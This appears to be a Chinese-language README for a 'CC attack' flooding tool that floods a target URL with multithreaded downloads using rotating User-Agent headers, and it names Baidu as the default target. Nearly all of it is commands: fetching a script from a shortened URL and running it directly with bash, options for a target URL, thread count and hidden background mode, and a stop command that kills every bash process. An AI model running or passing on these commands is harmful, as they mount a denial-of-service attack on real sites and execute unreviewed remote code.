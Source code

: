 ## 多线程刷流量 Download cc attack
  
  会自动更换UA头，多线程下载
 
#### 下载安装:
  
  默认会刷百度logo
``` bash
wget -O dcc.sh git.io/Jftkm
bash dcc.sh &
```

&nbsp;

  如果需要改为别的地址可以这样
 
```shell
wget -O dcc.sh git.io/Jftkm
bash dcc.sh "https://www.baidu.com" &  #指定url
bash dcc.sh "https://www.baidu.com" 8 & #指定url和8线程
```

&nbsp;

后台无反馈版
``` bash
wget -O dcc.sh git.io/Jftkm
nohup bash dcc.sh &
```

```shell
wget -O dcc.sh git.io/Jftkm
nohup bash dcc.sh "https://www.baidu.com" &  #指定url
nohup bash dcc.sh "https://www.baidu.com" 8 & #指定url和8线程
```

  
#### 查看使用流量（执行此命令起）
```shell
apt install -y iftop && iftop -i eth0
yum install -y iftop && iftop -i eth0
```

#### 如果网卡不是eth0可以改一下，看网卡名可以用这条命令

```shell
apt insatll -y net-tools && ifconfig
yum insatll -y net-tools && ifconfig
```

#### 结束命令
```shell
pkill bash && pkill wget
```
